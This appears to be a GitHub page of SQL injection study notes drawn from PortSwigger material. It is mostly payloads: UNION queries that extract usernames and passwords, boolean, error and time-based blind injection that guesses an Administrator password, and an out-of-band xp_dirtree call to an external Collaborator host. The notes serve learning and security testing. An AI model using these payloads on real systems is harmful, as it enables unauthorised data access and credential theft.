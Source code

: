 # Web Security resources 


#### Retrieving data from other database tables

```sql
>  ' UNION SELECT username, password FROM users-- 
```
For a UNION query to work, two key requirements must be met:

- The individual queries must return the same number of columns.
- The data types in each column must be compatible between the individual queries.

##### Determining the number of columns required in an SQL injection UNION attack

```sql
' ORDER BY 1--
' ORDER BY 2--
' ORDER BY 1-- ... ERROR!

' UNION SELECT NULL-- ERROR!
' UNION SELECT NULL,NULL--
' UNION SELECT NULL,NULL,NULL-- ERROR!
```

#### Examining the database

```sql
> SELECT * FROM information_schema.tables 
```

#### Blind SQL injection vulnerabilities

##### Exploiting blind SQL injection by triggering conditional responses

```sql
> xyz' UNION SELECT 'a' WHERE 1=1--
> xyz' UNION SELECT 'a' WHERE 1=2-- 

> xyz' UNION SELECT 'a' FROM Users WHERE Username = 'Administrator' and SUBSTRING(Password, 1, 1) > 'm'--
> xyz' UNION SELECT 'a' FROM Users WHERE Username = 'Administrator' and SUBSTRING(Password, 1, 1) > 't'-- 
...
> xyz' UNION SELECT 'a' FROM Users WHERE Username = 'Administrator' and SUBSTRING(Password, 1, 1) = 's'-- 
```
##### Inducing conditional responses by triggering SQL errors

```sql
> xyz' UNION SELECT CASE WHEN (1=2) THEN 1/0 ELSE NULL END--
> xyz' UNION SELECT CASE WHEN (1=1) THEN 1/0 ELSE NULL END-- 
> xyz' union select case when (username = 'Administrator' and SUBSTRING(password, 1, 1) > 'm') then 1/0 else null end from users-- 
> ... TO_CHAR(1/0) ... 
```

##### Exploiting blind SQL injection by triggering time delays

```sql
> '; IF (1=2) WAITFOR DELAY '0:0:10'--
> '; IF (1=1) WAITFOR DELAY '0:0:10'-- 
> '; IF (SELECT COUNT(username) FROM Users WHERE username = 'Administrator' AND SUBSTRING(password, 1, 1) > 'm') = 1 WAITFOR DELAY '0:0:{delay}'-- 

> dbms_pipe.receive_message(('a'),10) Oracle
> WAITFOR DELAY '0:0:10' Microsoft
> SELECT pg_sleep(10) PostgreSQL
> SELECT sleep(10) MySQL
```

##### Exploiting blind SQL injection using out-of-band (OAST) techniques

```sql
> '; exec master..xp_dirtree '//0efdymgw1o5w9inae8mg4dfrgim9ay.burpcollaborator.net/a'-- 
```

#### How to detect SQL injection vulnerabilities

```sql
> '
> OR 1=1 | OR 1=2
```

#### SQL injection in different parts of the query

- In UPDATE statements, within the updated values or the WHERE clause.
- In INSERT statements, within the inserted values.
- In SELECT statements, within the table or column name.
- In SELECT statements, within the ORDER BY clause.

#### Second-order SQL injection

 First-order SQL injection arises where the application takes user input from an HTTP request and, in the course of processing that request, incorporates the input into an SQL query in an unsafe way.

In second-order SQL injection (also known as stored SQL injection), the application takes user input from an HTTP request and stores it for future use. 

#### Database-specific factors

- [Cheatsheet of different databases](https://portswigger.net/web-security/sql-injection/cheat-sheet)












